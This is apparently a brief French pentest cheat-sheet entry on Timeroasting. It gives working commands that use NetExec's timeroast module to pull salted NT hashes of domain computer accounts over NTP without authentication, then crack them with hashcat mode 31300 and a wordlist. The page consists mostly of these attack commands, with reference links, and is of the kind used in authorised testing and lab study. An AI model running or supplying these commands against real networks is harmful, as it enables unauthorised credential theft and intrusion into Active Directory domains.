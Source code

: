 
https://cybersecurity.bureauveritas.com/uploads/whitepapers/Secura-WP-Timeroasting-v3.pdf
https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-roasting-timeroasting/
https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/timeroasting

https://github.com/SecuraBV/Timeroast

> [!TIP]
> Permet de récupérer le hash NT en version salé + hashé de n'importe quel Domain Computer sans s'authentifier en envoyant une requête NTP avec le RID du compte.


Récupérer les hashes

```bash
nxc smb 10.10.11.31 -M timeroast | grep 'sntp-ms' | cut -f2 -d":" > timeroast.hashes
```

Cracker avec la version beta de hashcat (mode 31300)
https://hashcat.net/beta/

```
./hashcat.bin -m 31300 timeroast.hashes /usr/share/wordlists/rockyou.txt
```





